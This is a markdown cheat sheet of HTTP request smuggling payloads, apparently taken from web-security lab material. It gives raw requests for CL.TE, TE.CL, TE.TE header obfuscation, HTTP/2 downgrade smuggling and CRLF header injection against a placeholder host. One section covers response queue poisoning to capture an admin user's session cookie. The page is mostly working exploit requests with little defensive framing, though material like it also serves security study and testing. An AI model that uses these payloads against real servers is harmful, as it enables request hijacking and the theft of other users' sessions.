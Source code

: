# Request Smuggling

## Finding CL.TE vulnerabilities using timing techniques
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 4
Transfer-Encoding: chunked

a
b
```

## Finding TE.CL vulnerabilities using timing techniques
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 100
Transfer-Encoding: chunked

0

x
```

## CL.TE vulnerabilities
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 6
Transfer-Encoding: chunked

0

G
```

## TE.CL vulnerabilities
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-length: 4
Transfer-Encoding: chunked

2b
GPOST / HTTP/1.1
Content-Length: 15

x=1
0
\r\n
\r\n
```

## TE.TE behavior: obfuscating the TE header
```
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked
```

## Finding H2.CL vulnerabilities using 404 techniques
```
POST / HTTP/2
Host: vulnerable-website.com
Content-Length: 0

SMUGGLED
```
Observe that every second request you send receives a 404 response, confirming that you have caused the back-end to append the subsequent request to the smuggled prefix.

## Finding H2.TE vulnerabilities using 404 techniques
```
POST / HTTP/2
Host: vulnerable-website.com
Transfer-Encoding: chunked

0

SMUGGLED
```
Observe that every second request you send receives a 404 response, confirming that you have caused the back-end to append the subsequent request to the smuggled prefix.

## Response queue poisoning via H2.TE request smuggling
```
POST /x HTTP/2
Host: vulnerable-website.com
Transfer-Encoding: chunked

0

GET /x HTTP/1.1
Host: vulnerable-website.com
\r\n
\r\n
```
Most of the time, you will receive your own 404 response. Any other response code indicates that you have successfully captured a response intended for the admin user. Repeat this process until you capture a 302 response containing the admin's new post-login session cookie.

## HTTP/2 request smuggling via CRLF injection
1. Send the most recent POST / request to Burp Repeater and remove your session cookie before resending the request.
2. Expand the Inspector's Request Attributes section and change the protocol to HTTP/2.
3. Using the Inspector, add an arbitrary header to the request. Append the sequence \r\n to the header's value, followed by the Transfer-Encoding: chunked header:

__Name__
```
foo
```
__Value__
```
bar\r\n
Transfer-Encoding: chunked
```

4. In the body, attempt to smuggle an arbitrary prefix as follows:
```
0

SMUGGLED
```
Observe that every second request you send receives a 404 response, confirming that you have caused the back-end to append the subsequent request to the smuggled prefix.
